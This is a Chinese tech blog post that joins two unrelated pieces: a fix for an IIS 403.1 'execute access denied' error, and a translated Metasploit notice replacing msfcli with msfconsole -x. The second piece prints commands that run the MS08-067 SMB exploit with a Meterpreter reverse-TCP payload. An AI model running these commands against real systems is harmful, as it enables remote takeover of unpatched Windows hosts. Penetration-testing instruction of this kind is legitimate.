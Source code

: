 ```yaml
---
layout: post
category: binghe-code-hack
title: HTTP 错误 403.1 - 禁止访问：执行访问被拒绝
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: HTTP 错误 403.1 - 禁止访问：执行访问被拒绝
lock: need
---
```


# HTTP 错误 403.1 - 禁止访问：执行访问被拒绝

使用WIN2003 INTERNET信息服务（IIS）管理器，在建立一个网站虚拟目录，结果浏览网页时出现错误，错误提示信息如下：

该页无法显示

您试图从目录中执行 CGI、ISAPI 或其他可执行程序，但该目录不允许执行程序。

请尝试以下操作：

如果您认为该目录应该允许执行访问权限，请与网站管理员联系。

HTTP 错误 403.1 - 禁止访问：执行访问被拒绝。

Internet 信息服务 (IIS)

技术信息（为技术支持人员提供）

转到 Microsoft 产品支持服务并搜索包括“HTTP”和“403”的标题。
打开“IIS 帮助”（可在 IIS 管理器 (inetmgr) 中访问），然后搜索标题为“配置 ISAPI 扩展”、“配置 CGI 应用程序”、“使用网站权限保护站点”和“关于自定义错误消息”的主题。
在 IIS 软件开发工具包 (SDK) 或 MSDN Online Library 中，搜索标题为“Developing ISAPI Extensions”、“ISAPI and CGI”和“Debugging ISAPI Extensions and Filters”的主题。

 经过调试，发觉解决办法其实很简单。解决办法如下：

单击操作系统的开始－－程序－－管理工具－－Interneter服务器管理，在IIS中选择您的站点然后右键－－属性，在“主目录”选项中，查看“执行权限”是否设置为“无”，这里改成“纯脚本”保存即可。

新建网站的时候忘记纯脚本选项的msfcli 不能使用?

msfcli 不能使用，在新版metasploit不再有效。以下翻译自Metasploit 官网。

Hi, 大家好，

   这个一月份，我们做了一份关于 Metasploit 的命令行版本接口版本 Msfcli 的声明，今天我们要对它说再见了。

   取代 Msfcli，我们推荐你在 Msfconsole 使用 -x 选项。

   举个例子，我们如何在一条命令中使用 MS08_067 模块。

```bash
msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST [IP]; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST [IP]; run"
```

你也可以把它在msfconsole中分步写或者做成脚本形式 (resource scripts) 或者设置别名来简化输入。

下面举个例子如何在msfconsole中分步使用 MS08_067 模块。

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOST [IP]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [IP]
run
```

上面的命令也可以做成源脚本，然后输入以下命令使用

```bash
msfconsole -r name_of_resource_script.rc
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
